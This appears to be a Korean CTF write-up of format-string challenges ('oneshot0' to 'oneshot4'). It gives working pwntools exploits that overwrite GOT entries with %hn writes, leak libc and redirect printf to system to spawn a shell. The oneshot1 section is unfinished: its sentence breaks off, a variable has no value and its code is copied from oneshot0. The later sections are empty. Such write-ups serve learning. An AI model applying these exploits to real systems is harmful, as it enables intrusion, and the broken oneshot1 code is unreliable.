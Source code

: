 # fsb

## oneshot0

주어진 gift 함수를 실행하면 된다. PIE가 없고 partial RELRO이므로 fsb를 활용하여 exit 함수의 got를 gift함수의 주소로 덮어쓸 수 있다. gift 함수의 주소값이 크기 때문에 출력하는 것에 시간이 오래 걸리므로 %hn을 이용하여 2bytes씩 2회에 걸쳐 나누어서 입력할 수 있다. gift의 주소를 2부분으로 나눈 뒤 각각 exit+2와 exit에 입력할 수 있다. payload의 길이는 8의 배수여야 하므로 0x20으로 설정하면 offset은 6이지만 payload 길이로 인해 실제 입력하는 offset은 10과 11이 된다. payload를 보내면 exit_got를 gift로 변조할 수 있다.

```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["gift"] >> 16}c'.encode() #gift_high
payload += b"%10$hn"
payload += f"%{(e.symbols['gift'] & 0xffff) - (e.symbols['gift'] >> 16)}c".encode() #gift_low - gift_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])
p.send(payload)

p.interactive()


```


## oneshot1

앞 문제와 다르게 system 함수만 주어져 있고 "/bin/sh"는 주어져 있지 않다. buf에 입력을 받을 때 "/bin/sh"를 입력하고, printf 함수의 got를 system 함수로 덮어쓰면 system("/bin/sh")를 실행할 수 있다. 그러나 

payload 단계를 구성할 수 있다.
exit_got을 



```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)


system_plt = 

printf_plt = 0x4010b0



p.recvuntil(b"\n\n")
payload = f'%{e.symbols["gift"] >> 16}c'.encode() #gift_high
payload += b"%10$hn"
payload += f"%{(e.symbols['gift'] & 0xffff) - (e.symbols['gift'] >> 16)}c".encode() #gift_low - gift_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])
p.send(payload)

p.interactive()


```



## oneshot2

system 함수와 "/bin/sh"가 주어져 있지 않으므로 libc_leak을 통해 구해서 풀어야 하는 문제로 보인다




```python

from pwn import *

p = process('./fsb_got64_2')
e = ELF('./fsb_got64_2')
libc = e.libc


main = e.symbols['main']
exit_got = e.got['exit']
printf_got = e.got['printf']

log.info('\texit@got '+hex(exit_got))
log.info('\tmain '+hex(main))


main_low = main & 0xffff
main_high = (main >> 16) & 0xffff

log.info('### main ###')
log.info('[1] input : exit@got -> main')

# offset 6
payload = ''
payload += '%{}c'.format(main_high)
payload += '%9$hn'
payload += '%{}c'.format(main_low - main_high)
payload += '%10$hn'
payload += 'AAA'
payload += p64(exit_got + 2)
payload += p64(exit_got)

#pause()
p.send(payload)


log.info('### main ###')
log.info('[2] libc leak')

payload = ''
payload += 'leak:%77$p'

#pause()
p.sendline(payload)

p.recvuntil('leak:')
leak = int(p.recv(14),16) 
log.info('\tleak : '+ hex(leak))

libc_base = leak - libc.symbols['__libc_start_main'] - 231
system = libc_base + libc.symbols['system']

log.info('\tlibc base '+ hex(libc_base))
log.info('\tprintf@got '+hex(printf_got))
log.info('\tsystem '+hex(system))



###
system_low = system & 0xffff
system_middle = (system >> 16) & 0xffff
system_high = (system >> 32) & 0xffff

low = system_low

if system_middle > system_low:
    middle = system_middle - system_low
else:
    middle = 0x10000 + system_middle - system_low

if system_high > system_middle:
    high = system_high - system_middle
else:
    high = 0x10000 + system_high - system_middle


log.info('### main ###')
log.info('[3] input : printf@got -> system')

# offset 6
payload = ''
payload += '%{}c'.format(low)
payload += '%11$hn'
payload += '%{}c'.format(middle)
payload += '%12$hn'
payload += '%{}c'.format(high)
payload += '%13$hn'
payload += 'A' * (8 - len(payload) % 8)
payload += p64(printf_got)
payload += p64(printf_got + 2)
payload += p64(printf_got + 4)

pause()
p.send(payload)

log.info('### main ###')
log.info('[4] input : /bin/sh\x00')
p.send('/bin/sh\x00')

p.interactive()


```




## oneshot3

새로운 문제이다.





## oneshot4
